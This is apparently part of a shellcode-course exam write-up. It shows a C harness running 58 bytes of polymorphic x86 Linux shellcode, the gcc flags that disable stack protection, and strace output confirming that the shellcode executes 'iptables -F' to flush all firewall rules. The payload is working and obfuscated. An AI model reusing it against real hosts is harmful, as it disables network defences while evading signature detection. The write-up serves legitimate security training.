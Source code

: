 To test the polymorphic shellcode, I've used the following C program:

```cpp
#include <stdio.h>
#include <string.h>

unsigned char code[] = \
"\x31\xdb\xf7\xe3\x52\x66\xbf\x2d\x46\x66\x57\x89\xe7\x52\xbe\x74\x63\x62\x72\x52\x68\x62\x6c\x65\x73\x68\x1d\x13\x16\x13\x31\x34\x24\x68\x62\x69\x6e\x2f\x68\x5b\x4c\x4d\x01\x31\x34\x24\x54\x5b\x52\x57\x53\xb0\x0a\x40\x54\x59\xcd\x80";

main()
{
    printf("Shellcode length: %d\n", strlen(code));

    int (*ret)() = (int(*)())code;
    ret();
}
```

To compile:

```bash
gcc -fno-stack-protector -z execstack -o test_polymorphic_shellcode test_polymorphic_shellcode.c
```

Once I've run it, I could confirm it executes `iptables -F` successfully:

```bash
rbct@slae:~/exam/assignment_6/3$ sudo strace -e trace=execve ./test_polymorphic_shellcode 
# execve("./test_polymorphic_shellcode", ["./test_polymorphic_shellcode"], [/* 16 vars */]) = 0
# Shellcode length: 58
# execve("///sbin/iptables", ["///sbin/iptables", "-F"], [/* 0 vars */]) = 0

rbct@slae:~/exam/assignment_6/3$
```

As you can see, it confirms the length of the shellcode is `58 bytes`.

More important is the last `execve` syscall. It executed the command `///sbin/iptables -F` and returned `0`, meaning it succeeded.

